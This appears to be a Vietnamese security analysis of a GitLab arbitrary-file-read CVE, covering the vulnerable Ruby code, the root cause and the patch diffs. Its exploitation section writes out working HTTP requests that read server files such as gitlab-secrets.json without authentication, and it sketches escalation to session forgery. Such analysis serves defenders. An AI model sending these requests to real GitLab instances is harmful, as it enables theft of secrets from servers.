


**CVE-2026-85706** là lỗi đọc file tùy ý không cần xác thực trong Commits API của GitLab CE/EE. Ba yếu tố kết hợp lại thành lỗ hổng: route thiếu `authenticate!`, helper xử lý upload tin tưởng tham số `file.path` do client gửi lên, và thông báo ngoại lệ của Rack query parser bị trả nguyên văn về response. Chỉ với một public project bất kỳ, người tấn công không cần tài khoản nào vẫn đọc được file trên máy chủ, kể cả `gitlab-secrets.json`.

CVE được công bố ngày 12/09/2026, gán **CWE-22** và điểm **CVSS v3.1 10.0 (Critical)**. Đáng chú ý là nó đã được thêm vào danh sách CISA KEV chỉ một ngày trước đó, với trạng thái khai thác đang diễn ra (exploitation: active).

| Thuộc tính | Giá trị |
| --- | --- |
| Thành phần | GitLab Rails (Commits & Files API, CommitsBodyUploaderHelper) |
| Entry point | `POST /api/v4/projects/:id/repository/commits`<br>`POST/PUT /api/v4/projects/:id/repository/files/:file_path` |
| Yêu cầu xác thực | Không, đối với các public repository |
| Phiên bản bị ảnh hưởng | `18.7` đến trước `19.1.8`, `19.2` đến trước `19.2.6`, `19.3` đến trước `19.3.2` |
| Phiên bản sửa lỗi | `19.1.8`, `19.2.6`, `19.3.2` |
| CWE | CWE-22 (Path Traversal) |
| CVSS v3.1 | 10.0 (Critical) |
| Tác động | Đọc file tùy ý trên server, lộ secret, cấu hình, token nội bộ |

Người phát hiện: **s3ntago**, báo cáo qua HackerOne report #3909881.

---

## Workhorse làm gì với upload

Để hiểu vì sao lỗi xảy ra, cần nắm kiến trúc tăng tốc upload giữa GitLab Workhorse (reverse proxy viết bằng Go) và Rails (Puma backend).

Khi upload một file lớn vào repository:

1. Request đi qua Workhorse trước.
2. Workhorse gọi nội bộ tới Rails tại route `.../authorize` để kiểm tra quyền.
3. Nếu Rails trả `200 OK`, Workhorse đọc body của client và ghi tạm xuống disk (ví dụ `/var/opt/gitlab/gitlab-rails/uploads/tmp/...`).
4. Workhorse viết lại request gửi tới Rails, thêm các trường metadata `file.path`, `file.size`, kèm một JWT ký bằng secret nội bộ chia sẻ giữa Workhorse và Rails.
5. Middleware `Gitlab::Middleware::Multipart` phía Rails giải mã JWT. Nếu chữ ký hợp lệ, nó bọc đường dẫn file thành đối tượng `::UploadedFile` và gán vào `params[:file]`.



Toàn bộ cơ chế này đứng trên hai giả định: route upload phải xác thực người dùng trước khi Workhorse đệm dữ liệu xuống disk, và Rails phải lấy đường dẫn file từ `UploadedFile` đã ký chứ không phải từ tham số thô của client. CVE-2026-85706 phá vỡ cả hai.

---

## Phân tích căn nguyên

### 1. Thiếu `authenticate!` ở Commits và Files API

Xem route tạo commit trong `lib/api/commits.rb` ở tag `v19.3.1-ee`:

```ruby
params do
  requires :file, type: ::API::Validations::Types::WorkhorseFile, desc: 'The commit content to be created (generated by Multipart middleware)', documentation: { type: 'file' }
end
route_setting :authorization, permissions: :create_commit, boundary_type: :project
post ':id/repository/commits' do
  require_gitlab_workhorse!

  attrs = file_params_from_body_upload

  # Validate branch type before using it in authorize_push_to_branch!
  validate_string_param!(attrs, :branch)

  authorize_push_to_branch!(attrs[:branch])
  ...
```

`require_gitlab_workhorse!` chỉ kiểm tra header `HTTP_GITLAB_WORKHORSE`, tức xác nhận request đi qua Workhorse, chứ không xác thực danh tính. Ngay dòng sau đó, `file_params_from_body_upload` đã chạy xong trước khi `authorize_push_to_branch!` hay `current_user` được đụng tới. Route cũng không có `authenticate!` ở đầu. Với một public project, request ẩn danh vượt qua bước `find_project!` và đi thẳng vào thân endpoint.

Tình trạng tương tự ở các route tạo và cập nhật file trong `lib/api/files.rb`, cùng endpoint `/authorize`:

- `POST :id/repository/files/:file_path`
- `PUT :id/repository/files/:file_path`
- `POST :id/repository/commits/authorize`

### 2. Bypass Grape validator bằng giá trị rỗng

Route khai báo tham số bắt buộc:

```ruby
requires :file, type: ::API::Validations::Types::WorkhorseFile
```

Parser của kiểu này nằm ở `lib/api/validations/types/workhorse_file.rb`:

```ruby
module API
  module Validations
    module Types
      class WorkhorseFile
        def self.parse(value)
          return if value.blank?
          raise "#{value.class} is not an UploadedFile type" unless parsed?(value)

          value
        end

        def self.parsed?(value)
          value.is_a?(::UploadedFile)
        end
      end
    end
  end
end
```

Vì `parse` trả `nil` ngay khi giá trị blank, gửi `file=` rỗng sẽ vượt qua bước kiểm tra kiểu mà không ném exception. Grape ở đây không bật `allow_blank: false`, nên giá trị `nil` được chấp nhận. Đây là mắt xích do tác giả phát hiện mô tả trong báo cáo HackerOne; code khớp với mô tả, nhưng mình chưa dựng lại PoC độc lập.

### 3. Tin tưởng `params['file.path']`

Sau khi qua validation, request vào helper `file_params_from_body_upload` trong `lib/api/helpers/commits_body_uploader_helper.rb`:

```ruby
def file_params_from_body_upload
  file_path = params['file.path']
  bad_request!('local file not present') unless File.exist?(file_path)

  check_large_request_rate_limit!(params['file.size'])

  media_type = Rack::MediaType.type(params['Content-Type'])
  ...
```

Đáng lẽ phải là `params[:file]&.path`, tức đối tượng `UploadedFile` đã qua xác thực chữ ký JWT. Nhưng code lấy thẳng chuỗi `params['file.path']`, vốn do HTTP client kiểm soát qua query string hoặc form data. Đường dẫn tùy ý như `/etc/passwd` hay `/opt/gitlab/embedded/service/gitlab-rails/config/database.yml` đều được chấp nhận.

Cũng ở đây, `File.exist?(file_path)` đóng vai trò oracle: file không tồn tại trả về `400` với thông báo `local file not present`, còn file tồn tại thì logic chạy tiếp. Chỉ cần thay đổi `file.path`, người tấn công quét được sự tồn tại của bất kỳ file nào trên hệ thống, trước cả bước xác thực.

### 4. Rò rỉ nội dung qua Rack parser

Đọc file vào bộ nhớ thì chưa đủ để lấy nội dung. Sink nằm ở nhánh xử lý `application/x-www-form-urlencoded`:

```ruby
elsif media_type == 'application/x-www-form-urlencoded'
  begin
    Rack::Utils.parse_nested_query(File.read(file_path)).deep_symbolize_keys!
  rescue Rack::QueryParser::QueryLimitError => e
    bad_request!("Invalid form data exceeded query limit: #{e.message}")
  rescue Rack::QueryParser::ParameterTypeError => e
    bad_request!("Invalid parameter type: #{e.message}")
  rescue Rack::QueryParser::InvalidParameterError => e
    bad_request!("Invalid parameter: #{e.message}")
  end
elsif media_type.nil? || media_type == 'application/json'
  Oj.load_file(file_path, symbol_keys: true)
```

Với header `Content-Type: application/x-www-form-urlencoded`:

1. Rails đọc toàn bộ nội dung file vào RAM bằng `File.read(file_path)`.
2. Nội dung được đưa cho `Rack::Utils.parse_nested_query`, parse như một query string.
3. Rack tự động giải mã percent-encoding. Nếu gặp `%` không theo sau hai chữ số hex hợp lệ — chuyện rất thường gặp trong file cấu hình, hash mật mã, chứng chỉ TLS, log, shell script — nó ném `Rack::QueryParser::InvalidParameterError` kèm chính chuỗi vi phạm trong message, dạng `invalid %-encoding (phần chuỗi ...)`.
4. Khối `rescue` nối trực tiếp `e.message` vào response, nên nội dung file bị lộ qua HTTP 400.

Thông báo `invalid %-encoding` ở trên là suy luận từ implementation của Rack, mình chưa thấy PoC công khai xác nhận định dạng response đầy đủ.



---

## So sánh với bản vá

Đối chiếu tag `v19.3.1-ee` và `v19.3.2-ee` trên GitLab public repository.

### 1. Thêm `authenticate!`

`lib/api/commits.rb` và `lib/api/files.rb` đều chèn xác thực ngay trước khi xử lý upload:

```diff
--- a/lib/api/commits.rb
+++ b/lib/api/commits.rb
@@ -350,6 +350,7 @@
       post ':id/repository/commits' do
         require_gitlab_workhorse!
+        authenticate!
 
         attrs = file_params_from_body_upload
```

```diff
--- a/lib/api/files.rb
+++ b/lib/api/files.rb
@@ -362,6 +362,7 @@
       post ":id/repository/files/:file_path", requirements: FILE_ENDPOINT_REQUIREMENTS, urgency: :low do
         require_gitlab_workhorse!
+        authenticate!
 
         file_params = validate_file_params!(file_params_from_body_upload)
@@ -408,6 +409,7 @@
       put ":id/repository/files/:file_path", requirements: FILE_ENDPOINT_REQUIREMENTS, urgency: :low do
         require_gitlab_workhorse!
+        authenticate!
 
         file_params = validate_file_params!(file_params_from_body_upload)
```

Endpoint `/authorize` cũng được thêm xác thực, để Workhorse không đệm body của người dùng ẩn danh xuống disk:

```diff
--- a/lib/api/helpers/commits_body_uploader_helper.rb
+++ b/lib/api/helpers/commits_body_uploader_helper.rb
@@ -7,6 +7,9 @@
       def workhorse_authorize_commits_body_upload!
         require_gitlab_workhorse!
 
+        # Authenticate before Workhorse buffers the request body to disk.
+        authenticate!
+
         yield if block_given?
```

### 2. Bỏ `params['file.path']`, chỉ nhận `UploadedFile`

```diff
--- a/lib/api/helpers/commits_body_uploader_helper.rb
+++ b/lib/api/helpers/commits_body_uploader_helper.rb
@@ -18,18 +18,25 @@
       def file_params_from_body_upload
-        file_path = params['file.path']
-        bad_request!('local file not present') unless File.exist?(file_path)
+        # Trust only middleware-finalized upload metadata for the file path and size,
+        # never the raw `file.path` or `file.size` parameters.
+        uploaded_file = params[:file]
+        bad_request!('file is invalid') unless uploaded_file.is_a?(::UploadedFile)
+
+        file_path = uploaded_file.path
+        bad_request!('local file not present') unless file_path.present? && File.exist?(file_path)
 
-        check_large_request_rate_limit!(params['file.size'])
+        check_large_request_rate_limit!(uploaded_file.size)
 
         media_type = Rack::MediaType.type(params['Content-Type'])
 
         if media_type == 'multipart/form-data'
+          uploaded_file.rewind
+
           env = {
             'CONTENT_TYPE' => params['Content-Type'],
-            'CONTENT_LENGTH' => params['file.size'],
-            'rack.input' => File.open(file_path),
+            'CONTENT_LENGTH' => uploaded_file.size.to_s,
+            'rack.input' => uploaded_file,
```

Đường dẫn giờ chỉ đến từ `params[:file]`, tức đối tượng đã được `Gitlab::Middleware::Multipart` xác thực.

### 3. Xóa `#{e.message}` khỏi response

```diff
          elsif media_type == 'application/x-www-form-urlencoded'
            begin
              Rack::Utils.parse_nested_query(File.read(file_path)).deep_symbolize_keys!
-          rescue Rack::QueryParser::QueryLimitError => e
-            bad_request!("Invalid form data exceeded query limit: #{e.message}")
-          rescue Rack::QueryParser::ParameterTypeError => e
-            bad_request!("Invalid parameter type: #{e.message}")
-          rescue Rack::QueryParser::InvalidParameterError => e
-            bad_request!("Invalid parameter: #{e.message}")
+          rescue Rack::QueryParser::QueryLimitError
+            bad_request!('Invalid form data exceeded query limit')
+          rescue Rack::QueryParser::ParameterTypeError
+            bad_request!('Invalid parameter type')
+          rescue Rack::QueryParser::InvalidParameterError
+            bad_request!('Invalid parameter')
            end
```

### 4. Terraform State API được vá cùng cách

Lỗi tương tự cũng có ở `lib/api/terraform/state.rb`:

```diff
--- a/lib/api/terraform/state.rb
+++ b/lib/api/terraform/state.rb
@@ -161,9 +161,11 @@
             authorize! :admin_terraform_state, user_project
             check_terraform_state_protection!
 
-            # Direct upload is not supported, so we should have access to the file.
-            file_path = params['file.path']
-            unprocessable_entity!('Terraform state file not found on disk') unless File.exist?(file_path)
+            # Read the path from the Workhorse-verified UploadedFile, not the raw
+            # 'file.path' param, which is attacker-controlled if Workhorse's
+            # multipart preprocessing was bypassed.
+            file_path = params[:file]&.path
+            unprocessable_entity!('Terraform state file not found on disk') unless file_path && File.exist?(file_path)
             data = File.read(file_path)
```

---

## Khai thác

Phần này mình dựng lại theo luồng code, không phải trích từ PoC có sẵn.

### Bước 1: Chọn mục tiêu

Tìm một public project bất kỳ trên instance GitLab mục tiêu. Không cần tài khoản hay quyền hạn gì.

### Bước 2: Quét sự tồn tại của file

```http
POST /api/v4/projects/1/repository/commits HTTP/1.1
Host: gitlab.example.com
Content-Type: application/x-www-form-urlencoded

file=&file.path=/opt/gitlab/embedded/service/gitlab-rails/config/database.yml&file.size=1
```

Nếu trả về `400` với body `{"message": "400 Bad Request - local file not present"}` thì đường dẫn không tồn tại. Kết quả khác nghĩa là file có trên disk.

### Bước 3: Đọc nội dung file

Nhắm vào file chứa ký tự `%` không hợp lệ, chẳng hạn chứng chỉ, private key, hoặc `/etc/gitlab/gitlab-secrets.json`:

```http
POST /api/v4/projects/1/repository/commits HTTP/1.1
Host: gitlab.example.com
Content-Type: application/x-www-form-urlencoded

file=&file.path=/etc/gitlab/gitlab-secrets.json&file.size=100
```

Response dự kiến:

```http
HTTP/1.1 400 Bad Request
Content-Type: application/json

{"message":"Invalid parameter: invalid %-encoding (...)"}
```

### Bước 4: Hệ quả

`/etc/gitlab/gitlab-secrets.json` chứa `secret_key_base`, `db_key_base`, `otp_key_base`. Có `secret_key_base` thì về lý thuyết có thể ký session cookie hoặc tìm chuỗi deserialization để tiến tới RCE. Đây là suy luận gián tiếp dựa trên thiết kế của Rails/GitLab, không phải kết quả đã được chứng minh công khai cho CVE này. CISA xếp technical impact của lỗ hổng là "total", nên khả năng leo thang là có cơ sở, nhưng mình không khẳng định chắc chắn.

---

## Mức độ nghiêm trọng

GitLab chấm **CVSS v3.1 10.0 (Critical)** với vector `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:N`: khai thác qua mạng, độ phức tạp thấp, không cần đặc quyền, không cần tương tác người dùng, phạm vi thay đổi (Scope Changed), và tác động cao trên cả Confidentiality lẫn Integrity. Điểm Integrity cao vì khả năng đọc secret kéo theo khả năng giả mạo phiên và thao tác dữ liệu.

CISA thêm CVE vào KEV ngày 11/09/2026, tức trước cả ngày công bố chính thức, với `exploitation: active`, `automatable: yes`, `technicalImpact: total`. Yêu cầu vá của CISA hết hạn ngày 14/09/2026.

Nếu instance của bạn nằm trong dải bị ảnh hưởng và có public project, việc cần làm là nâng cấp lên `19.1.8`, `19.2.6`, hoặc `19.3.2` tùy nhánh. Vì khai thác đã diễn ra ngoài thực tế, chỉ đọc log không đủ; nên kiểm tra `gitlab-secrets.json` và các file cấu hình đã bị truy cập hay chưa.

---

## Tài liệu tham khảo

- [CVE-2026-85706 trên NVD](https://nvd.nist.gov/vuln/detail/CVE-2026-85706)
- [CVE Record trên CVE.org](https://www.cve.org/CVERecord?id=CVE-2026-85706)
- [GitLab Work Item #627748](https://gitlab.com/gitlab-org/gitlab/-/work_items/627748)
- [HackerOne Report #3909881](https://hackerone.com/reports/3909881)
- [CISA Known Exploited Vulnerabilities Catalog](https://www.cisa.gov/known-exploited-vulnerabilities-catalog)
- [GitLab Patch Releases](https://docs.gitlab.com/releases/patch-releases/)
- [Source tại tag v19.3.2-ee](https://gitlab.com/gitlab-org/gitlab/-/tags/v19.3.2-ee)
- [Rack QueryParser Documentation](https://rubydoc.info/gems/rack/Rack/QueryParser)
